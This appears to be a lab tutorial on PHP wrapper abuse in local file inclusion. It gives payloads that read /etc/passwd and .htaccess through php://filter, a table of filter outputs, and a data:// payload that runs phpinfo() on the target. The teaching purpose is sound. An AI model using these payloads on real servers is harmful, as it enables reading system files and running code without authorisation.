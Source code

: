 # PHP Wrappers

PHP wrappers are part of PHP's functionality that allows users access to various data streams. Wrappers can also access or execute code through built-in PHP protocols, which may lead to significant security risks if not properly handled.

For instance, an application vulnerable to LFI might include files based on a user-supplied input without sufficient validation. In such cases, attackers can use the `php://filter` filter. This filter allows a user to perform basic modification operations on the data before it's read or written. For example, if an attacker wants to encode the contents of an included file like `/etc/passwd` in base64, this can be achieved by using the `convert.base64-encode` conversion filter of the wrapper. The final payload will then be `php://filter/convert.base64-encode/resource=/etc/passwd`.

For example, go to `http://MACHINE_IP/playground.php` and use the final payload above.

### Vulnerable application containing the payload

Once the application processes this payload, the server will return an encoded content of the passwd file.

### Vulnerable application returns the encoded value of the requested file

The attacker can then decode this to reveal the contents of the target file.

### Decoded value of the /etc/passwd file

There are many categories of filters in PHP. Some of these are:

- **String Filters**: `string.rot13`, `string.toupper`, `string.tolower`, and `string.strip_tags`
- **Conversion Filters**: `convert.base64-encode`, `convert.base64-decode`, `convert.quoted-printable-encode`, and `convert.quoted-printable-decode`
- **Compression Filters**: `zlib.deflate` and `zlib.inflate`
- **Encryption Filters**: `mcrypt` and `mdecrypt` (now deprecated)

For example, the table below represents the output of the target file `.htaccess` using the different string filters in PHP.

| Payload | Output |
| --- | --- |
| `php://filter/convert.base64-encode/resource=.htaccess` | UmV3cml0ZUVuZ2luZSBvbgpPcHRpb25zIC1JbmRleGVz |
| `php://filter/string.rot13/resource=.htaccess` | ErjevgrRatvar ba Bcgvbaf -Vaqrkrf |
| `php://filter/string.toupper/resource=.htaccess` | REWRITEENGINE ON OPTIONS -INDEXES |
| `php://filter/string.tolower/resource=.htaccess` | rewriteengine on options -indexes |
| `php://filter/string.strip_tags/resource=.htaccess` | RewriteEngine on Options -Indexes |
| No filter applied | RewriteEngine on Options -Indexes |

## Data Wrapper

The data stream wrapper is another example of PHP's wrapper functionality. The `data://` wrapper allows inline data embedding. It is used to embed small amounts of data directly into the application code.

For example, go to `http://MACHINE_IP/playground.php` and use the payload `data:text/plain,<?php%20phpinfo();%20?>`. This URL could cause PHP code execution, displaying the PHP configuration details.

### Vulnerable application containing the data payload

The breakdown of the payload `data:text/plain,<?php phpinfo(); ?>` is:

- `data:` as the URL.
- `mime-type` is set as `text/plain`.
- The data part includes a PHP code snippet: `<?php phpinfo(); ?>`.